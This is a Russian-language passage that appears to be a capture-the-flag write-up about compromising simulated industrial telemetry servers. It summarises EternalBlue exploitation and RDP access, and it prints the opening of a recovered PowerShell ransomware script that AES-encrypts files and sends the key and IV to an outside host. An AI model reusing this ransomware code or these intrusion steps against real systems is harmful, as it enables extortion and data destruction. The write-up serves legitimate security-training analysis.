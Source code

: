 |  Error bind() IEC 104 socket! (IecTaskCB.Port = 2404), retry in 30 seconds...
```
Это означает, что октеты IP-адресов были намеренно изменены. Для того, чтобы вернуть все на прежние места, мы обратились к руководству по эксплуатации:
```
При сохранении любой конфигурации, которая была сохранена ранее, старый файл
сохраняется в файле с тем же самым именем и расширением *.bak, поэтому если по
какой-то причине вам нужно восстановить версию до последней перезаписи
конфигурации - переименуйте bak-файл в enl-файл и откройте при помощи
инструментальной системы.
```
Так как в папке лежал такой файл, то мы проделали то же самое.

### 2.5. 10.33.239.5 OIK-SERVER (Eternal Blue)

На этом сервере стоит программа ОИК Диспетчер НТ для приема и обработки телеметрической информации, организация её хранения и доступ к результатам телеметрии и базам данных. Мы достали файл Database.db, но в нем таблицы оказались пустыми.
Как и в предыдущем случае, это сервис оказался уязвимым к атаке EternalBlue. Проделав все шаги по смене пароля и получению доступа по rdp, мы обнаружили приложение "Настройка серверов", запускаемое только от имени Администратора. При запуске мы попытались подключиться к IP-адресу 10.33.239.6, но неудачно. Скорее всего, проблема именно на этом компьютере, так как в "Устройствах" компьютера указано, что у OIK-SERVER есть неполадки. При попытке их устранения ничего не происходит.

### 2.6. 10.33.239.6 OIK-CLIENT (Eternal Blue)

Еще один уязвимый сервис. При подключении по rdp найдено приложение "Клиент ОИК диспетчер (pgsql)". Работа этого сервиса зависит от 10.33.239.6

В папке Share найдены файлы с расширением .cert. (Самый важный - FLAG.txt.cert)

Найден файл Ransom.ps1. Внутри оказался код шифрования AES (CBC). Внутри находится код шифрования файлов. key и iv отправляются на `http://$IP/key=$Key&iv=$IV&pc=$env:computername`.

```
set-strictMode -version 2.0
function Ransom
{

Param(
    [Parameter(Position = 0)]
    [String]
    $IP='127.0.0.1'
    )

    $aesManaged=new-object "System.Security.Cryptography.AesManaged";
    $aesManaged.Mode=[System.Security.Cryptography.CipherMode]::CBC;
    $aesManaged.Padding=[System.Security.Cryptography.PaddingMode]::Zeros;
    $aesManaged.BlockSize=128;
    $aesManaged.KeySize=256;
    $aesManaged.GenerateKey();
    $IV =  [System.Convert]::ToBase64String($aesManaged.IV);
    $key = [System.Convert]::ToBase64String($aesManaged.Key);
